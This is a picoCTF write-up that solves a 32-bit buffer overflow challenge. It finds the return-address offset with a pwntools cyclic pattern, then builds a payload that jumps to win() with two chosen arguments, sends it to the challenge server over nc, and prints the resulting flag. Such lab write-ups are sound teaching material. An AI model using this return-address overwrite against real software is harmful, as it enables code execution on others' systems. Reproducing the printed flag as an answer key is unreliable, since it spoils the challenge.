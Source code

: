 # URL
https://play.picoctf.org/practice/challenge/259?category=6&page=2

# Challenge
Author: Sanjay C / Palash Oswal

Description
Control the return address and arguments
Additional details will be available after launching your challenge instance.

# Work:
* To start us off, let's create a pattern

```
from pwn import *
# Generate a cyclic pattern of 200 bytes
pattern = cyclic(200)
print(pattern)
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ab68d565-c115-40ee-8ce4-99b3ff61a1e3" />

* EIP = return address and we can see that's being overrun @ address = 0x62616164

```
>>> from pwn import *
>>> print(cyclic_find(0x62616164))
112 
```

* 112 = our offset

```
pwndbg> print &win
$1 = (<text variable, no debug info> *) 0x8049296 <win> 
```

* Knowing the address of win = 0x8049296

```
python3
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x8049296)
b'\x96\x92\x04\x08'
>>> print(cyclic(200))
```

* Submit this payload:

```
pwngdb> r <<< $echo("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08")
```

<img width="1863" height="753" alt="image" src="https://github.com/user-attachments/assets/8457c79f-e596-4ca2-a64f-23dd69d89f4b" />

* So the command above worked since we are in the win() function now

* Now all we gotta do is pad 4 bytes and add the two arguments

<img width="362" height="185" alt="image" src="https://github.com/user-attachments/assets/2dfec480-3012-45c5-87f1-c19af6956796" />

* We NEED these arguments or else the function won't continue

* The 4 bytes are dummy bytes, those 4 bytes are the saved return address; however, we don't want to return, instead we want to continue forward

```
+--------------------+
|  return address    |  <-- saved EIP (4 bytes)   ← this is where QQQQ goes
+--------------------+
|  arg1              |  <-- first argument
+--------------------+
|  arg2              |  <-- second argument
+--------------------+
```

* 4 bytes = QQQQ

```
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
```

```
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

```
┌──(kali㉿kali)-[~/picoCTF/binaryexploitation]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08QQQQ\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0'" | nc saturn.picoctf.net 64366
Please enter your string: 
�'�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QQQQ
picoCTF{argum3nt5_4_d4yZ_59cd5643}       
```

* WOOHOOOOOOOOOOO FLAG!!!!
  
